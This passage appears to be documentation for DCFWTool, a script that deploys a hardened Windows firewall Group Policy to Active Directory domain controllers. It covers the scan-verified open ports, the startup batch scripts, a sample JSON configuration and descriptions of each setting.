```txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 21:18 CET
Nmap scan report for adatum-dc.adatum.com (10.213.0.8)
Host is up (0.0035s latency).
Not shown: 65531 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
389/udp open  ldap
MAC Address: 00:17:FB:00:00:05 (FA)

Nmap done: 1 IP address (1 host up) scanned in 934.29 seconds
```

Contrary to what the documentation says, the Kerberos password change (kpasswd) protocol does not seem to be listening on port `464/UDP`.
More importantly, the firewall properly blocks the legacy NetBIOS protocol (ports `137/UDP`, `138/UDP`, and `139/TCP`).

## DCFWTool Distribution Contents

Below is a list of all files that are part of the solution, with their respective paths and brief descriptions.

`DCFWTool\Set-ADDSFirewallPolicy.ps1`

:   PowerShell script for deploying the DC Firewall GPO.

`DCFWTool\Set-ADDSFirewallPolicy.Starter.json`

:   Initial minimalistic configuration file that should be renamed
    to `Set-ADDSFirewallPolicy.json` and edited before the `Set-ADDSFirewallPolicy.ps1` script is executed.

`DCFWTool\Set-ADDSFirewallPolicy.Sample.json`

:   Sample configuration file containing all supported configuration options.

`DCFWTool\Set-ADDSFirewallPolicy.schema.json`

:   Schema file for the JSON configuration files.

`DCFWTool\RpcNamedPipesFilters.txt`

:   `netsh.exe` script for creating RPC filters.

`DCFWTool\PolicyDefinitions\DomainControllerFirewall.admx`

:   GPO template file for [custom configuration](#administrative-templates) settings.

`DCFWTool\PolicyDefinitions\MSS-legacy.admx`

:   GPO template file for [MSS (Legacy)] settings.

`DCFWTool\PolicyDefinitions\SecGuide.admx`

:   GPO template file for [MS Security Guide] settings.

`DCFWTool\PolicyDefinitions\en-US\DomainControllerFirewall.adml`

:   English localization file for the `DomainControllerFirewall.admx` template.

`DCFWTool\PolicyDefinitions\en-US\MSS-legacy.adml`

:   English localization file for the `MSS-legacy.admx` template.

`DCFWTool\PolicyDefinitions\en-US\SecGuide.adml`

:   English localization file for the `SecGuide.admx` template.

`GPOReport.html`

:   Sample Group Policy HTML report with all GPO settings configured by the tool.

`inbound-builtin-firewall-rules.csv`

:   List of all built-in FW rules utilized (not necessarily enabled) by the tool.

`inbound-custom-firewall-rules.csv`

:   List of all custom FW rules utilized by the tool.

`additional-roles-firewall-rules.csv`

:   List of built-in FW rules required by additional server roles supported by the tool.

`DCFWTool\Show-WindowsFirewallLog.ps1`

:   PowerShell script for reading Windows Firewall log files.

`DCFWTool\Update-ADDSFirewallPolicy.bat`

: Batch script that locally applies all domain controller firewall policy settings, without requiring a DC reboot.

`DCFWTool\Undo-ADDSFirewallPolicy.bat`

: Batch script that locally resets the unmanaged domain controller policy settings to their default values.

[MSS (Legacy)]: https://techcommunity.microsoft.com/t5/microsoft-security-baselines/the-mss-settings/ba-p/701055
[MS Security Guide]: https://learn.microsoft.com/en-us/deployoffice/security/security-baseline#ms-security-guide-administrative-template

## Group Policy Object Contents

The Group Policy Object created and managed by the `DCFWTool` contains a lot of settings,
including firewall rules, registry values, and a startup script.
This chapter contains a detailed description of these configuration items.



### Windows Firewall Configuration

Based on the configured options in the [Set-ADDSFirewallPolicy.json configuration file](#configuration-file),
the resulting GPO will contain the following Windows Firewall settings applied to all profiles:

- Turn on the Windows Firewall
- Block inbound connections by default
- Disable local firewall rules
- [Log dropped packets](#logdroppedpackets)
- [Log allowed packets](#logallowedpackets)
- [Log file location](#logfilepath)
- [Maximum log file size](#logmaxsizekilobytes)
- [Enable local IPSec rule merge](#enablelocalipsecrules)


A complete list of inbound firewall rules created by the tool is available in [the last chapter](#inbound-firewall-rules-reference).


### Registry Settings

Based on the configured options in the [Set-ADDSFirewallPolicy.json configuration file](#configuration-file),
the GPO will contain a number of registry settings.
Most of them are managed, which means that once the GPO is not linked to the target,
the settings revert back to the default state.
Some of them are [unmanaged](#dealing-with-gpo-tattooing) though
and require attention when being reverted back to system defaults.


The following registry-based network settings recommended by Microsoft are always configured:

| Setting                                                                                                          | State    |
|------------------------------------------------------------------------------------------------------------------|----------|
| MSS: (EnableICMPRedirect) Allow ICMP redirects to override OSPF generated routes                                 | Disabled |
| MSS: (DisableIPSourceRouting) IP source routing protection level (protects against packet spoofing)              | Enabled  |
| MSS: (DisableIPSourceRouting IPv6) IP source routing protection level (protects against packet spoofing)         | Enabled  |
| MSS: (PerformRouterDiscovery) Allow IRDP to detect and configure Default Gateway addresses (could lead to DoS)   | Disabled |
| MSS: (NoNameReleaseOnDemand) Allow the computer to ignore NetBIOS name release requests except from WINS servers | Enabled  |

Note that support for these settings is added by the [MSS Legacy](#mss-legacy-admx) administrative template.

### Administrative Templates

The following ADMX files and their respective English ADML files are copied
to the [Central ADMX Store](https://learn.microsoft.com/en-us/troubleshoot/windows-client/group-policy/create-and-manage-central-store)
if it exists:

#### DomainControllerFirewall.admx

This custom ADMX template enables configuration of the following settings:

[NTDS Static Port](#ntdsstaticport)

:   Computer Configuration → Administrative Templates → RPC Static Ports →
    Domain Controller: Active Directory RPC static port

[Netlogon Static Port](#netlogonstaticport)  

:   Computer Configuration → Administrative Templates → RPC Static Ports →
    Domain Controller: Netlogon static port

[FRS Static Port](#frsstaticport)  

:   Computer Configuration → Administrative Templates → RPC Static Ports →
    Domain Controller: File Replication Service (FRS) static port

[mDNS Configuration](#disablemdns)  

:   Computer Configuration → Administrative Templates → Network → DNS Client →
    Turn off Multicast DNS (mDNS) client

#### SecGuide.admx

This template is provided by Microsoft as part of the [Security Compliance Toolkit](https://learn.microsoft.com/en-us/windows/security/operating-system-security/device-management/windows-security-configuration-framework/security-compliance-toolkit-10).

The corresponding settings can be found under Computer Configuration → Administrative Templates → MS Security Guide.

#### MSS-legacy.admx {#mss-legacy-admx}

The [MSS (Legacy) template](https://techcommunity.microsoft.com/blog/microsoft-security-baselines/the-mss-settings/701055)
is provided by Microsoft as part of the [Security Compliance Toolkit](https://learn.microsoft.com/en-us/windows/security/operating-system-security/device-management/windows-security-configuration-framework/security-compliance-toolkit-10).

The corresponding settings can be found under Computer Configuration → Administrative Templates → MSS (Legacy).

### Startup Script

The managed GPO also contains a startup script called `FirewallConfiguration.bat`,
which is used to configure some firewall-related settings
that cannot be deployed through declarative Group Policy extensions.
The script is automatically generated based on the configuration defined
in the [Set-ADDSFirewallPolicy.json](#configuration-file)
and it may execute the following actions:

- Configure a fixed port for Windows Management Instrumentation (WMI).
- Install DFS Management tools, if not already present on the machine.
- Set up a static port for the Distributed File System Replication (DFSR).
- Create a firewall log file and set appropriate permissions on it.
- Register remote procedure call (RPC) filters.

The batch file format is intentionally used instead of a Powershell script to avoid potential issues with the execution policy.


> [!WARNING]
> As startup scripts depend on [foreground GPO processing](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj573586(v=ws.11)),
> target servers need to be restarted at least once for these settings to be applied.
> Some workarounds are discussed in the chapter on [System Reboots](#system-reboots).

#### WMI Static Port

Depending on the [WmiStaticPort](#wmistaticport) setting, the startup script will reconfigure
the WMI service to run in a standalone process listening on TCP port 24158
with the authentication level set to `RPC_C_AUTHN_LEVEL_PKT_PRIVACY`.
This is achieved by executing the following command:

```bat
winmgmt.exe /standalonehost 6
```

#### DFSR Static Port

Depending on the [DfsrStaticPort](#dfsrstaticport) setting,
the startup script will ensure that the optional DFS Management tools are installed:

```bat
if not exist "%SystemRoot%\system32\dfsrdiag.exe" (
  dism.exe /Online /Enable-Feature /FeatureName:DfsMgmt
)
```

Next, it will configure the DFSR to use a static port:

```bat
dfsrdiag.exe StaticRPC /Port:5722
```

#### Firewall Log File

Due to a known bug in Windows, it is not enough to enable dropped packet logging
through the Windows Firewall settings dialog window.

{ width=400px }

The log file needs to be created manually
and write permissions must be granted to the firewall service.
The startup script takes care of this additional step by executing the command line below:

```bat
netsh.exe advfirewall set allprofiles logging filename "%systemroot%\system32\logfiles\firewall\pfirewall.log"
```

The optional [LogFilePath](#logfilepath) setting can be used if the default log path is undesirable.

#### RPC Filters Script

If the [EnableRpcFilters](#enablerpcfilters) setting is configured,
the startup script will register all RPC filters defined in the `RpcNamedPipesFilters.txt` file
by running the following command:

```bat
netsh.exe -f "%~dp0RpcNamedPipesFilters.txt"
```

The `RpcNamedPipesFilters.txt` file will be located in the `Startup` directory of the GPO:


### NPS Fix for Downlevel Windows Servers

Due to a known bug in downlevel Windows versions,
Windows Server 2022 firewall rules related to the Network Policy Server (NPS)
do not work in Windows Server 2019 and 2016.

If the presence of Network Policy Server is indicated using the [EnableNPS](#enablenps) setting,
the startup script will contain
a [simple fix](https://learn.microsoft.com/en-us/answers/questions/97643/windows-server-2019-nps-(network-policy-server)-so)
for this issue:

```bat
sc.exe sidtype IAS unrestricted
```

The command enables the NPS service to be targeted by firewall rules.

#### Sample Startup Scripts

Here is an example of a full startup script generated by the `DCFWTool`:

```shell
@ECHO OFF
REM This script is managed by the Set-ADDSFirewallPolicy.ps1 PowerShell script.

echo Move the WMI service to a standalone process listening on TCP port 24158 with authentication level set to RPC_C_AUTHN_LEVEL_PKT_PRIVACY.
winmgmt.exe /standalonehost 6

echo Install the dfsrdiag.exe tool if absent.
if not exist "%SystemRoot%\system32\dfsrdiag.exe" (
    dism.exe /Online /Enable-Feature /FeatureName:DfsMgmt
)

echo Set static RPC port for DFS Replication.
dfsrdiag.exe StaticRPC /Port:5722

echo Create the firewall log file and configure its DACL.
netsh.exe advfirewall set allprofiles logging filename "%systemroot%\system32\logfiles\firewall\pfirewall.log"

echo Register the RPC filters.
netsh.exe -f "%~dp0RpcNamedPipesFilters.txt"

echo Fix the NPS service to work with Windows Firewall on downlevel Windows Server versions.
sc.exe sidtype IAS unrestricted
```

And here is a script applying inverted settings:

```shell
@ECHO OFF
REM This script is managed by the Set-ADDSFirewallPolicy.ps1 PowerShell script.

echo Move the WMI service into the shared Svchost process.
winmgmt.exe /sharedhost

echo Install the dfsrdiag.exe tool if absent.
if not exist "%SystemRoot%\system32\dfsrdiag.exe" (
    dism.exe /Online /Enable-Feature /FeatureName:DfsMgmt
)

echo Set dynamic RPC port for DFS Replication.
dfsrdiag.exe StaticRPC /Port:0

echo Create the firewall log file and configure its DACL.
netsh.exe advfirewall set allprofiles logging filename "%systemroot%\system32\logfiles\firewall\pfirewall.log"

echo Remove all RPC filters.
netsh.exe rpc filter delete filter filterkey=all
```

## Configuration

### Configuration File

The `Set-ADDSFirewallPolicy.ps1` script expects a configuration file
called `Set-ADDSFirewallPolicy.json` to be present in the same directory.
To prevent accidental execution of the script with default settings,
the configuration file does not exist by default and needs to be created manually before deployment.

To simplify the task of creation of a custom configuration file, the `DCFWTool` comes with 2 sample files:

- `Set-ADDSFirewallPolicy.Starter.json`

   Contains only the minimum settings required for firewall policy deployment.
   It is recommended to rename the file to `Set-ADDSFirewallPolicy.json` and to add any additional customizations
   of the policy object to be deployed.

- `Set-ADDSFirewallPolicy.Sample.json`

    Contains all the possible configuration items with sample values.
    It is essential to thoroughly review and adjust all the settings. This sample file should never be used "AS IS".

> [!CAUTION]
> Improper configuration can cause network outages in your environment!

Here is a sample configuration file containing all the possible settings:

```json
{
  "$schema": "Set-ADDSFirewallPolicy.schema.json",
  "GroupPolicyObjectName": "Domain Controller Firewall",
  "TargetDomain": "contoso.com",
  "GroupPolicyObjectComment": "This GPO is managed by the Set-ADDSFirewallPolicy.ps1 PowerShell script.",
  "LogDroppedPackets": true,
  "LogAllowedPackets": false,
  "LogFilePath": "%systemroot%\\system32\\logfiles\\firewall\\pfirewall.log",
  "LogMaxSizeKilobytes": 16384,
  "ClientAddresses": [ "203.0.113.0/24", "198.51.100.0/24" ],
  "ManagementAddresses": [ "198.51.100.0/24" ],
  "DomainControllerAddresses": [ "192.0.2.0/24" ],
  "RadiusClientAddresses": null,
  "NtdsStaticPort": 38901,
  "NetlogonStaticPort": 38902,
  "FrsStaticPort": 38903,
  "DfsrStaticPort": 5722,
  "WmiStaticPort": true,
  "RestrictADWS": true,
  "DisableNetbiosBroadcasts": true,
  "DisableLLMNR": true,
  "DisableMDNS": true,
  "BlockManagementFromDomainControllers": false,
  "EnableServiceManagement": true,
  "EnableEventLogManagement": true,
  "EnableScheduledTaskManagement": true,
  "EnableWindowsRemoteManagement": true,
  "EnablePerformanceLogAccess": true,
  "EnableOpenSSHServer": false,
  "EnableRemoteDesktop": true,
  "EnableDiskManagement": true,
  "EnableBackupManagement": true,
  "EnableFirewallManagement": false,
  "EnableComPlusManagement": false,
  "EnableLegacyFileReplication": false,
  "EnableNetbiosNameService": false,
  "EnableNetbiosDatagramService": false,
  "EnableNetbiosSessionService": false,
  "EnableWINS": false,
  "EnableDhcpServer": false,
  "EnableNPS": false,
  "EnableKMS": false,
  "EnableWSUS": false,
  "EnableWDS": false,
  "EnableWebServer": false,
  "EnablePrintSpooler": false,
  "EnableFSRMManagement": false,
  "EnableNetworkProtection": true,
  "BlockWmiCommandExecution": true,
  "EnableRpcFilters": true,
  "EnableLocalIPsecRules": false,
  "CustomRuleFileNames": [
      "CustomRules.BackupAgent.ps1",
      "CustomRules.ManagementAgent.ps1"
   ]
}
```

To further simplify the modification of configuration files,
the solution contains a JSON schema file called `Set-ADDSFirewallPolicy.schema.json`,
which provides code completion support to modern IDEs like [VS Code](https://code.visualstudio.com/):


### Dealing with GPO Tattooing

Some firewall-related settings are not removed from the domain controllers after they fall out of the scope of the GPO.
These changes are thus permanent and require manual removal.
Such settings are called **unmanaged** and the resulting behavior is known as GPO tattooing.
To address this issue, the `DCFWTool` configuration files use ternary logic:

- `true` ⇒ The setting is enabled by the GPO.
- `false` ⇒ The setting is disabled by the GPO.
- `null` ⇒ The local setting is not changed by the GPO.

As a consequence, before the value of an unmanaged setting can be changed from `true` to `null`,
it must temporarily be set to `false`.
Keep in mind that it may take time for the new settings to propagate to all domain controllers due to replication latency.
Additionally, some settings [may require a reboot](#system-reboots).

The following settings in this project are known to cause tattooing:

- [NtdsStaticPort](#ntdsstaticport)
- [NetlogonStaticPort](#netlogonstaticport)
- [FrsStaticPort](#frsstaticport)
- [DfsrStaticPort](#dfsrstaticport)
- [WmiStaticPort](#wmistaticport)
- [DisableNetbiosBroadcasts](#disablenetbiosbroadcasts)
- [DisableMDNS](#disablemdns)
- [EnableRpcFilters](#enablerpcfilters)

All settings in the [MSS Legacy](#registry-settings) administrative template are unmanaged as well.

The remainder of this chapter contains documentation to all the settings supported by the `DCFWTool`.

### GroupPolicyObjectName

The name of the Group Policy Object (GPO) that will be created or updated.

```yaml
Type: String
Required: true
Default value: "Domain Controller Firewall"
```

Feel free to change it so that it complies with your naming convention.

### GroupPolicyObjectComment

The comment text that will be visible on the GPO object.

```yaml
Type: String
Required: false
Default value: "This GPO is managed by the Set-ADDSFirewallPolicy.ps1 PowerShell script."
```

### TargetDomain

FQDN of the domain in which the Group Policy Object (GPO) will be created or updated.

```yaml
Type: String
Required: false
Default value: null
```

This setting is only useful in multi-domain forests.
If not specified, the script will attempt to determine the domain of the local computer.

### LogDroppedPackets

Indicates whether the packets dropped by the firewall should be logged.

```yaml
Type: Boolean
Required: false
Default value: false
Recommended value: true
Possible values: true / false
```

If `true`, all dropped packets will be logged into the [firewall text log](#logfilepath).

If `false`, dropped packets will not be logged.

### LogAllowedPackets

Indicates whether the packets allowed by the firewall should be logged.

```yaml
Type: Boolean
Required: false
Default value: false
Recommended value: false
Possible values: true / false
```

If `true`, all allowed packets will be logged into the [firewall text log](#logfilepath).

If `false`, allowed packets will not be logged.

### LogFilePath

Specifies the path to the log file that will be used to store information about
the allowed and/or dropped packets if [logging is enabled](#logdroppedpackets).

```yaml
Type: String
Required: false
Default value: %systemroot%\\system32\\logfiles\\firewall\\pfirewall.log
```

The provided value will be used by the [startup script](#firewall-log-file) to configure the log.

As all 3 profiles (Domain/Private/Public) are configured identically,
a shared log file is created for all of them.
This is to allow easier search, troubleshooting, and ingestion by log collectors.

### LogMaxSizeKilobytes

Sets the maximum size of the [firewall log](#logfilepath) in kilobytes (KB).

```yaml
Type: Integer
Required: false
Default value: 128
Recommended value: 16384
Possible values: 1 - 32767
```

The file won't grow beyond this size; when the limit is reached,
old log entries are deleted to make room for the newly created ones.

To be compliant with security standards like STIG or CIS, set this value to **at least 16384**.

### ClientAddresses

List of client IP addresses from which inbound traffic should be allowed.

```yaml
Type: String[]
Required: false
Default value: [ "Any" ]
```

Possible values: IPv4 address, IPv4 subnet or IPv4 address range, separated by a comma,
e.g., "10.220.2.0/24", "10.220.4.0/24", "10.220.5.0/24", "192.168.0.1-192.168.0.10".
Supports also "Any" as an input.

Specify IPv4 address, IPv4 subnet or address range of all your clients.
Anything that acts as a client from a DC perspective is considered a client here,
so you should specify all your server and user/client subnets.
Everything that needs to interact with your DCs should be included here,
except for other DCs and secure endpoints (PAWs) used to manage Domain Controllers or Tier 0 in general.

> [!WARNING]
> This is a critical configuration setting! With improper configuration,
> this could cause network outages for your clients.

### ManagementAddresses

List of IP addresses from which inbound management traffic should be allowed.

```yaml
Type: String[]
Required: false
Default value: [ "Any" ]
```

Possible values: IPv4 address, IPv4 subnet or IPv4 address range, separated by a comma,
e.g., "10.220.2.0/24", "10.220.4.0/24", "10.220.5.0/24", "192.168.0.1-192.168.0.10".

Specify IPv4 address, IPv4 subnet or address range of all secure endpoints (PAWs)
used to manage Domain Controllers or Tier 0 in general.

> [!WARNING]
> This is a critical configuration setting! With improper configuration,
> this could cause network outage for your management workstations.

### DomainControllerAddresses

List of domain controller IP addresses, between which replication and management traffic will be allowed.

```yaml
Type: String[]
Required: false
Default value: [ "Any" ]
```

Possible values: IPv4 address, IPv4 subnet or IPv4 address range, separated by a comma,
e.g., "10.220.2.0/24", "10.220.4.0/24", "10.220.5.0/24", "192.168.0.1-192.168.0.10".

Specify IPv4 address, IPv4 subnet or address range of all your Domain Controllers in the forest.

> [!WARNING]
> This is a critical configuration setting! With improper configuration, this could cause network outage for your DCs.

### NtdsStaticPort

Static TCP port to be used for inbound Active Directory RPC traffic.

```yaml
Type: Integer
Default value: null
Recommended value: 38901
Possible values: null / 0 / 1024 - 49151
```

If a `non-zero value` is provided for this setting,
the Active Directory (NTDS) service will be listening on this [static TCP port](#static-rpc-ports).

If set to `0 (zero)`, a dynamic TCP port in the 49152 – 65535 range will be used by the NTDS service,
which is the default behavior.

If `null`, this setting will not be managed by the GPO.

> [!IMPORTANT]
> The NTDS service needs to be restarted for the new setting to become effective.
> See the [System Reboots](#system-reboots) section for details.

> [!NOTE]
> If this setting is specified, the [NetlogonStaticPort](#netlogonstaticport) value should be configured as well.

### NetlogonStaticPort

Static TCP port to be used for inbound Netlogon traffic.

```yaml
Type: Integer
Default value: null
Recommended value: 38902
Possible values: null / 0 / 1024 - 49151
```

If a `non-zero value` is provided for this setting,
the Netlogon service will be listening on this [static TCP port](#static-rpc-ports).

If set to `0 (zero)`, a dynamic TCP port in the 49152 – 65535 range will be used by the Netlogon service,
which is the default behavior.

If `null`, this setting will not be managed by the GPO.

> [!IMPORTANT]
> The Netlogon service needs to be restarted for the new setting to become effective.
> See the [System Reboots](#system-reboots) section for details.

> [!NOTE]
> If this setting is specified, the [NtdsStaticPort](#ntdsstaticport) value should be configured as well.

### FrsStaticPort

Static TCP port to be used for legacy FRS traffic.

```yaml
Type: Integer
Default value: null
Recommended value: 38903
Possible values: null / 0 / 1024 - 49151
```

If a `non-zero value` is provided for this setting,
the legacy File Replication Service (FRS) will be listening on this [static TCP port](#static-rpc-ports).

If set to `0 (zero)`, a dynamic TCP port in the 49152 – 65535 range will be used by the FRS service,
which is the default behavior.

If `null`, this setting will not be managed by the GPO.

> [!IMPORTANT]
> The FRS service needs to be restarted for the new setting to become effective.
> See the [System Reboots](#system-reboots) section for details.

### DfsrStaticPort

Static TCP port to be used for DFSR traffic.

```yaml
Type: Integer
Default value: null
Recommended value: 5722
Possible values: null / 0 / 1024 - 49151
```

If a `non-zero value` is provided for this setting,
the DFS Replication (DFSR) service will be listening on this [static TCP port](#static-rpc-ports).

If set to `0 (zero)`, a dynamic TCP port in the 49152 – 65535 range will be used by the DFSR service,
which is the default behavior.

If `null`, this setting will not be managed by the GPO.

> [!IMPORTANT]
> The DFSR service needs to be restarted for the new setting to become effective.
> See the [System Reboots](#system-reboots) section for details.

### WmiStaticPort

Indicates whether inbound Windows Management Instrumentation (WMI) traffic should use a static TCP port.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

If `true`, the WMI service will be configured to listen on the [static 24158 TCP port](#static-rpc-ports)
and the [RPC_C_AUTHN_LEVEL_PKT_PRIVACY](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/425a7c53-c33a-4868-8e5b-2a850d40dc73)
option will be enforced to prevent MITM network-based attacks.

If `false`, the WMI service will be configured to use a dynamic TCP port in the 49152 – 65535 range,
which is the default behavior.

If `null`, this setting will not be managed by the GPO.

> [!IMPORTANT]
> The Winmgmt service needs to be restarted for the new setting to become effective.
> See the [System Reboots](#system-reboots) section for details.

### RestrictADWS

Indicates whether the Active Directory Web Services (ADWS) should only be available from management IPs.

```yaml
Type: Boolean
Required: false
Default value: false
Recommended value: true
Possible values: true / false
```

If `false`, the [Active Directory Web Services (TCP-In)](#active-directory-web-services-tcp-in) firewall rule
will permit ADWS traffic originating from all client IP addresses.

If `true`, the [Active Directory Web Services (TCP-In)](#active-directory-web-services-tcp-in) firewall rule
will only permit ADWS traffic originating from the management IP addresses.

### DisableNetbiosBroadcasts

Indicates whether the NetBIOS protocol should be switched to P-node (point-to-point) mode.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

If `true`, the [NetBIOS node type](#name-resolution-protocols)
will be set to P-node by the respective GPO registry setting.

If `false`, the NetBIOS node type will be set to H-node (hybrid), which is the default behavior.

If `null` NetBIOS node type will not be managed by the GPO.

### DisableLLMNR

Indicates whether the Link-Local Multicast Name Resolution (LLMNR) client should be disabled.

```yaml
Type: Boolean
Required: false
Default value: false
Recommended value: true
Possible values: true / false
```

If `true`, the [Link-Local Multicast Name Resolution (LLMNR)](#name-resolution-protocols) will be disabled
by the respective GPO registry setting.

If `false`, the LLMNR service will not be managed by the GPO.

### DisableMDNS

Indicates whether the Multicast DNS (mDNS) client should be disabled.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

If `true`, the [Multicast DNS (mDNS) client](#name-resolution-protocols) will be disabled
by the respective GPO registry setting.

If `false`, the mDNS client will be enabled
by the respective GPO registry setting.

If `null`, the mDNS protocol will not be managed by the GPO.

> [!IMPORTANT]
> A system reboot might be required for the mDNS setting to become effective.

### BlockManagementFromDomainControllers

Indicates whether management traffic from other domain controllers should be blocked.

```yaml
Type: Boolean
Required: false
Default value: false
Recommended value: true
Possible values: true / false
```

If `true`, management traffic will be blocked between Domain Controllers.
The IP addresses of DCs will not be listed in the following remote management firewall rules in the target GPO:

- [Active Directory Web Services (TCP-In)](#active-directory-web-services-tcp-in)
- [Windows Remote Management (HTTP-In)](#windows-remote-management-http-in)
- [Windows Remote Management (HTTPS-In)](#windows-remote-management-https-in)
- [Windows Management Instrumentation (WMI-In)](#windows-management-instrumentation-wmi-in)
- [Remote Desktop - User Mode (UDP-In)](#remote-desktop---user-mode-udp-in)
- [Remote Desktop - User Mode (TCP-In)](#remote-desktop---user-mode-tcp-in)
- [Remote Desktop (TCP-In)](#remote-desktop-tcp-in)
- [DFS Management (TCP-In)](#dfs-management-tcp-in)
- [RPC (TCP, Incoming)](#rpc-tcp-incoming)
- [Windows Backup (RPC)](#windows-backup-rpc)
- [Performance Logs and Alerts (TCP-In)](#performance-logs-and-alerts-tcp-in)
- [COM+ Remote Administration (DCOM-In)](#com-remote-administration-dcom-in)
- [Remote Event Log Management (RPC)](#remote-event-log-management-rpc)
- [Remote Scheduled Tasks Management (RPC)](#remote-scheduled-tasks-management-rpc)
- [Remote Service Management (RPC)](#remote-service-management-rpc)
- [Remote Volume Management - Virtual Disk Service (RPC)](#remote-volume-management---virtual-disk-service-rpc)
- [Remote Volume Management - Virtual Disk Service Loader (RPC)](#remote-volume-management---virtual-disk-service-loader-rpc)
- [Windows Defender Firewall Remote Management (RPC)](#windows-defender-firewall-remote-management-rpc)
- [Windows Internet Naming Service (WINS) - Remote Management (RPC)](#windows-internet-naming-service-wins---remote-management-rpc)
- [DHCP Server (RPC-In)](#dhcp-server-rpc-in)
- [Network Policy Server (RPC)](#network-policy-server-rpc)
- [Remote File Server Resource Manager Management - FSRM Service (RPC-In)](#remote-file-server-resource-manager-management---fsrm-service-rpc-in)
- [Remote File Server Resource Manager Management - FSRM Reports Service (RPC-In)](#remote-file-server-resource-manager-management---fsrm-reports-service-rpc-in)
- [OpenSSH SSH Server (sshd)](#openssh-ssh-server-sshd)

If `false`, the IP addresses of domain controllers will be added to the firewall rules above.
As a result, management traffic between DCs will be allowed.

### EnableServiceManagement

Indicates whether remote service management should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [Remote Service Management (RPC)](#remote-service-management-rpc) firewall rule
will be enabled in the target GPO.

If `false`, this rule will be disabled.

### EnableEventLogManagement

Indicates whether remote event log management should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: true
Possible values: true / false
```

If `true`, the [Remote Event Log Management (RPC)](#remote-event-log-management-rpc) firewall rule
will be enabled in the target GPO.

If `false`, this rule will be disabled.

### EnableScheduledTaskManagement

Indicates whether remote scheduled task management should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [Remote Scheduled Tasks Management (RPC)](#remote-scheduled-tasks-management-rpc) firewall rule
will be enabled in the target GPO.

If `false`, this rule will be disabled.

### EnableWindowsRemoteManagement

Indicates whether inbound Windows Remote Management (WinRM) traffic should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: true
Possible values: true / false
```

If `true`, the following WinRM firewall rules will be enabled in the target GPO:

- [Windows Remote Management (HTTP-In)](#windows-remote-management-http-in)
- [Windows Remote Management (HTTPS-In)](#windows-remote-management-https-in)

If `false`, the WinRM rules will be disabled.

The [WinRM protocol](https://learn.microsoft.com/en-us/windows/win32/winrm/about-windows-remote-management)
is used by PowerShell Remoting, Server Manager, and [PowerShell CIM cmdlets](https://learn.microsoft.com/en-us/powershell/module/cimcmdlets/?view=powershell-7.4).

### EnablePerformanceLogAccess

Indicates whether remote performance log access should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [Performance Logs and Alerts (TCP-In)](#performance-logs-and-alerts-tcp-in) firewall rule
will be enabled in the target GPO.

If `false`, this rule will be disabled.

### EnableOpenSSHServer

Indicates whether inbound OpenSSH traffic should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [OpenSSH SSH Server (sshd)](#openssh-ssh-server-sshd) firewall rule will be enabled in the target GPO.

If `false`, this OpenSSH rule will be disabled.

### EnableRemoteDesktop

Indicates whether inbound Remote Desktop Protocol (RDP) traffic should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: true
Possible values: true / false
```

If `true`, the following RDP firewall rules will be enabled in the target GPO:

- [Remote Desktop - User Mode (TCP-In)](#remote-desktop---user-mode-tcp-in)
- [Remote Desktop - User Mode (UDP-In)](#remote-desktop---user-mode-udp-in)
- [Remote Desktop (TCP-In)](#remote-desktop-tcp-in)

If `false`, these RDP rules will be disabled.

### EnableDiskManagement

Indicates whether remote disk management should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the following firewall rules will be enabled in the target GPO:

- [Remote Volume Management - Virtual Disk Service Loader (RPC)](#remote-volume-management---virtual-disk-service-loader-rpc)
- [Remote Volume Management - Virtual Disk Service (RPC)](#remote-volume-management---virtual-disk-service-rpc)

If `false`, these rules will be disabled.

### EnableBackupManagement

Indicates whether remote management of Windows Server Backup should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [Windows Backup (RPC)](#windows-backup-rpc) firewall rule will be enabled in the target GPO.

If `false`, this firewall rule will be disabled.

### EnableFirewallManagement

Indicates whether remote firewall management should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [Windows Defender Firewall Remote Management (RPC)](#windows-defender-firewall-remote-management-rpc)
firewall rule will be enabled in the target GPO.

If `false`, this rule will be disabled.

### EnableComPlusManagement

Indicates whether inbound COM+ management traffic should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [COM+ Remote Administration (DCOM-In)](#com-remote-administration-dcom-in) firewall rule
will be enabled in the target GPO.

If `false`, this rule will be disabled.

See Microsoft's documentation on [COM+ applications](https://learn.microsoft.com/en-us/windows/win32/cossdk/com--application-overview)
for more details.

### EnableLegacyFileReplication

Indicates whether inbound legacy file replication traffic should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [File Replication (RPC)](#file-replication-rpc) firewall rule will be enabled in the target GPO.
This is required in domains where the `SYSVOL` replication has not been
[migrated from the legacy FRS to DFSR](https://learn.microsoft.com/en-us/windows-server/storage/dfs-replication/migrate-sysvol-to-dfsr).

If `false`, this firewall rule will be disabled.

### EnableNetbiosNameService

Indicates whether inbound NetBIOS Name Service should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [File and Printer Sharing (NB-Name-In)](#file-and-printer-sharing-nb-name-in)
firewall rule will be enabled in the target GPO.

